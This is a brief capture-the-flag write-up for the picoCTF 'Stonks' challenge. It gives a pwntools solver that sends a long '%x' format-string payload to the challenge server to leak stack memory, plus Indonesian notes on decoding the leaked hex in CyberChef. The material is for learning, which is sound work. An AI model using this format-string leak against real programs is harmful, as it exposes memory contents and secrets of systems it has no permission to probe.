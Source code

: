 ### Stonks - format string vulnerability 

solver.py

```python
from pwn import *
p = remote('mercury.picoctf.net',33411)
print(p.recvuntil(b'io\n'))
p.sendline(b'1')
print(p.recvuntil(b'?\n'))
p.sendline(b'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x')
print(p.recvuntil(b'!'))
p.close()
```

di cyberchef pilih from hex delimiter auto 
reverse tiap 4 byte 
copy result dan buat line untuk 4 char
reverse tiap line



